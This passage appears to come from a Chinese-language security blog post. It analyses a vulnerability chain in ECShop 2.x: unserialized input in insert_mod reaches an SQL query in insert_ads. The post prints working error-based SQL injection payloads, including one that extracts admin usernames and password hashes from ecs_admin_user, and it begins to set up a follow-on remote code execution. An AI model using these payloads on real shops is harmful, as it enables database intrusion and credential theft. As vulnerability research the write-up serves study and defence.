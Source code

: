 这里判断是否存在一个固定的`hash`存在,一般为`554fcae493e564ee0dc75bdf2ebf94ca`,接着使用`insert_mod`处理hash后所跟随的数据，该函数为第二个关键函数

    function insert_mod($name) // 处理动态内容
    {
        list($fun, $para) = explode('|', $name);
        $para = unserialize($para);
        $fun = 'insert_' . $fun;

        return $fun($para);
    }

通过`|`分割的数据前面为函数名，后面为参数，并且对参数进行了反序列化操作，而这里函数名部分可控，参数都可控。 这里需要利用`includes/lib_insert.php`中的`insert_ads`函数进行最后的漏洞利用

![web]({{ '/images/201809/ecshop2.x_2_2.png' | prepend: site.baseurl }})

此处可以进行`sql`注入,不过这里能利用的只能是时间盲注效率有点低，如果开启了错误回显可以使用基错注入，payload的形式如下：

	echash+func|serialize(array("num"=>sqlpayload,"id"=>1))

接着构造一个基错注入payload:

	554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,@@datadir)),1)-- -";s:2:"id";i:1;}

成功利用:

![web]({{ '/images/201809/ecshop2.x_2_3.png' | prepend: site.baseurl }})

这里可以通过`procedure`在`limit`后面进行基错注入获取回显,`mysql`版本需要为`5.5.x`以下版本，我这里由于环境的问题一直无法通过，整理`payload`为(这里构造需要注意序列化的值的长度)

	554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:128:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,(select concat(user_name,password) from ecs_admin_user limit 1,1))),1)-- -";s:2:"id";i:1;}

`sql注入`到此为止，后续还有一个`RCE`的漏洞

    function insert_ads($arr)
    {
    static $static_res = NULL;

    $time = gmtime();
    if (!empty($arr['num']) && $arr['num'] != 1)
    {
        $sql  = 'SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, ' .
                    'p.ad_height, p.position_style, RAND() AS rnd ' .
                'FROM ' . $GLOBALS['ecs']->table('ad') . ' AS a '.
                'LEFT JOIN ' . $GLOBALS['ecs']->table('ad_position') . ' AS p ON a.position_id = p.position_id ' .
                "WHERE enabled = 1 AND start_time <= '" . $time . "' AND end_time >= '" . $time . "' ".
                    "AND a.position_id = '" . $arr['id'] . "' " .
                'ORDER BY rnd LIMIT ' . $arr['num'];
        $res = $GLOBALS['db']->GetAll($sql);
    }
	...
    foreach ($res AS $row)
    {
        if ($row['position_id'] != $arr['id'])	// 这里需要配合sql注入绕过这个检查
        {
            continue;
        }
        $position_style = $row['position_style'];	// 将我们控制的数据传入
	...
    $position_style = 'str:' . $position_style;  // 关键点
